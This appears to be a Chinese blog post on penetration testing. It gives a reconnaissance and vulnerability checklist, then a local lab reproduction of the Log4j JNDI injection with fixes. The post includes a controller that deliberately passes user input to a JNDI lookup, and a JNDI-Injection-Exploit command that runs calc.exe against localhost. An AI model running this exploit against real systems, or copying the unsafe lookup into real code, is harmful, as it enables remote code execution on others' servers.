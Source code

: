 ```yaml
---
title: 渗透实践
date: 2022-02-06 11:50:58
tags:
categories:
description:
keywords:

---
```


# 渗透实践

1.收集信息

- 服务器的相关信息（ip，系统类型，端口号，waf）
- 网站指纹（cms，cdn，证书，dns记录）
- whois信息，姓名，备案，邮箱，电话反查询
- 子域名，旁站，C段
- Google hacking针对的渗透，pdf，中间件，弱口令
- 扫描目录，爆后台，网站banner，测试文件，敏感文件泄露
- 传输协议，通用漏洞，exp，github源码

2.漏洞挖掘

- 浏览网站，看看网站规模，功能，特点等
- 端口，弱口令，目录等扫描
- XSS，SQL注入，命令注入，CSRF，cookie安全检测，敏感信息，通信数据传输，暴力破解，任意文件上传，越权访问，未授权访问，目录遍历，文件 包含，重放攻击（短信轰炸），服务器漏洞检测，最后使用漏扫工具等





### 复现实战

Log4j

首先在GitHub下载poc

https://github.com/welk1n/JNDI-Injection-Exploit

然后随便搭建一个SpringBoot项目

然后创建一个Controller

```java

@Controller
public class TestController {

    public static final Logger logger = LogManager.getLogger();
    @GetMapping("/aaaa")
    @ResponseBody
    public String hello(String i){
        try {
            InitialContext ctx = new InitialContext();
            ctx.lookup(i);
            ctx.lookup(i);
        } catch (NamingException e) {
            e.printStackTrace();
        }
        return "111";
    }

}

```

然后启动服务

>Apache-Log4j-Learning-main\tools>java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "C:\Windows\System32\calc.exe" -A "127.0.0.1"
>
>
>
>[-C 执行命令] [-A 目标ip]

![image-20220210112011646](D:\Code\pojo\Blog\BlogHexo\public\img\实战-1.png)

根据jdk的版本来选择不同的接口地址,只需要传递进去即可执行命令





**修复方法**

项目启动的时候运行

> -Dlog4j2.formatMsgNoLookups=true



升级log4j2版本至2.15.0





